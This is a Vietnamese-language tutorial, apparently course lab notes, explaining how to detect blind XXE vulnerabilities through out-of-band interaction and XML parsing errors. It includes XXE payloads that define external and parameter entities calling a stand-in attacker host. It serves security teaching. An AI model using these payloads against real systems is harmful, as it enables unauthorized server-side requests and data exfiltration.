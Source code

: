 # Overview:

Lỗ hổng XXE mù (Blind XXE) xảy ra khi ứng dụng bị tổn thương bởi XXE injection nhưng không trả về giá trị của bất kỳ thực thể bên ngoài nào trong phản hồi. Điều này làm cho việc khai thác blind XXE khó khăn hơn so với các lỗ hổng XXE thông thường.

Để tìm và khai thác các lỗ hổng blind XXE, bạn có thể sử dụng các phương pháp sau:

1. Kích hoạt tương tác mạng ngoài phạm vi: Bạn có thể tạo ra các yêu cầu mạng tới các hệ thống bên ngoài mà ứng dụng có thể truy cập. Đồng thời, bạn cần tạo ra một cơ chế để thu thập thông tin hoặc dữ liệu nhạy cảm từ các yêu cầu này. Ví dụ, bạn có thể thiết lập một máy chủ nghe (listener) để nhận dữ liệu exfiltrated từ ứng dụng.

2. Kích hoạt lỗi phân tích XML để thu thập thông tin nhạy cảm: Bạn có thể thử gây ra lỗi phân tích XML bằng cách đưa vào các dữ liệu không hợp lệ hoặc gây ra xung đột trong cú pháp XML. Sau đó, bạn sẽ kiểm tra các thông báo lỗi hoặc thông báo phản hồi từ ứng dụng để tìm thông tin nhạy cảm như đường dẫn tệp, tên người dùng, hoặc thông tin hệ thống khác.

# Phát hiện lỗ hổng blind XXE bằng cách sử dụng kỹ thuật out-of-band (OAST):

Bạn có thể phát hiện lỗ hổng blind XXE bằng cách sử dụng kỹ thuật out-of-band (OAST) giống như cho các cuộc tấn công XXE SSRF, nhưng kích hoạt tương tác mạng ngoài phạm vi đến một hệ thống mà bạn kiểm soát. Ví dụ, bạn sẽ xác định một thực thể bên ngoài như sau:

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
```

Thông qua việc xác định thực thể bên ngoài này, bạn có thể tạo ra các yêu cầu HTTP hoặc DNS đến hệ thống mà bạn kiểm soát. Bằng cách theo dõi các yêu cầu đến hệ thống của bạn, bạn có thể xác định thông tin nhạy cảm hoặc thu thập dữ liệu từ ứng dụng mục tiêu.

Thực hành ở đây.

Đôi khi, các cuộc tấn công XXE sử dụng các thực thể thông thường bị chặn do việc kiểm tra đầu vào bởi ứng dụng hoặc việc tăng cường bảo mật của trình phân tích cú pháp XML đang được sử dụng. Trong tình huống này, bạn có thể sử dụng thực thể XML thông số thay thế. Thực thể XML thông số là một loại đặc biệt của thực thể XML chỉ có thể được tham chiếu ở nơi khác trong DTD. Đối với mục đích hiện tại, bạn chỉ cần biết hai điều. Thứ nhất, khai báo một thực thể XML thông số bao gồm ký tự phần trăm trước tên enitity:

```xml
<!ENTITY % myparameterentity "my parameter entity value" >
```
và

```xml
%myparameterentity;
```
Điều này có nghĩa là bạn có thể kiểm tra các lỗ hổng XXE mù bằng cách sử dụng phát hiện ngoài dòng thông qua các thực thể XML thông số như sau:

```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

Thực hành [ở đây](Exercises/Lab: Blind XXE with out-of-band interaction via XML parameter entities.md).

